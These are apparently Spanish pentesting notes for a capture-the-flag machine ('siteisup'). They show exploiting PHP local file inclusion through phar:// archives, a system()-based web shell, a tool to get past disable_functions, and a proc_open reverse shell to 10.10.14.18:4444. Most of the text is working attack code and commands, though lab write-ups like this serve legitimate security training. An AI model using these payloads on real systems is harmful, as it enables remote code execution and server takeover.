 O incluso:

```php
include 'phar://archivo.phar/index.php';
```

En este caso **también se ejecuta**, porque lo estás incluyendo explícitamente.

___

# **LFI**:
```php
include($_GET['page'] . ".php");
```

Si subes algo que no legible (como un zip) peta el script y el archivo no se elimina:

```bash
zip info.m0b shell.php
```

```bash
http://dev.siteisup.htb/?page=phar://uploads/828afc50efeaa61d10099d92a4f618c5/info.m0b/shell #Y aquí el código metería .php
```

No podemos subir una shell como:

```php
<html><body><pre><?php if(isset($_GET['cmd'])){ system($_GET['cmd']); }?></pre></body></html>
```

Porque si subimos un phpinfo() nos tira varias `disable_functions`, entre ellas system.
Para saber si alguna nos permite ejecutar rce
Ejecutamos https://github.com/teambi0s/dfunc-bypasser.git sobre el archivo info.php

```bash
python2 dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/5e31601b65f0062e32966f2f8e94fbb0/info.0xdf/info
```

Revershe shell usando proc_open:

```php
<?php
        $descspec = array(
                0 => array("pipe", "r"),
                1 => array("pipe", "w"),
                2 => array("pipe", "w")
        );
        $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1'";
        $proc = proc_open($cmd, $descspec, $pipes);
?>
```
# LFI2RCE

https://github.com/synacktiv/php_filter_chain_generator
